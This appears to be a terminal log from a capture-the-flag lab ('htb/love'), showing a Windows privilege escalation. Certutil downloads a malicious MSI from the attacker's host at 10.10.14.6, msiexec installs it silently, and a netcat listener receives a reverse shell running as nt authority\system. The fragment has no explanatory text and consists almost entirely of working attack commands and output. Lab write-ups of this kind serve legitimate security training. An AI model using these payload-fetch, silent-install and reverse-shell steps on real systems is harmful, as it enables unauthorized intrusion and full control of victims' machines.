certutil.exe -urlcache -f http://10.10.14.6/system.msi system.msi
**** Online ****
CertUtil: -URLCache command completed successfully.
C:\xampp\htdocs\omrs\images>dir
dir
Volume in drive C has no label.
Volume Serial Number is 56DE-BA30
Directory of C:\xampp\htdocs\omrs\images
08/07/2021 12:26 PM <DIR> .
08/07/2021 12:26 PM <DIR> ..
08/06/2021 07:48 PM 159,744 admin.msi
05/18/2018 08:10 AM 4,240 facebook-profile-image.jpeg
04/12/2021 03:53 PM 0 index.html.txt
01/27/2021 12:08 AM 844 index.jpeg
08/06/2021 07:33 PM 1,919,488 privilege.exe
08/24/2017 04:00 AM 26,644 profile.jpg
08/06/2021 07:06 PM 7,168 reverse1.exe
08/07/2021 12:14 PM 7,168 shell.exe
08/07/2021 12:26 PM 159,744 system.msi
9 File(s) 2,285,040 bytes
2 Dir(s) 3,879,710,720 bytes free
C:\xampp\htdocs\omrs\images>msiexec /quiet /qn /i system.msi
msiexec /quiet /qn /i system.msi
C:\xampp\htdocs\omrs\images>
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4446
[sudo] password for kali:
listening on [any] 4446 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50995
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.
C:\WINDOWS\system32>whoami
whoami
nt authority\system
C:\WINDOWS\system32>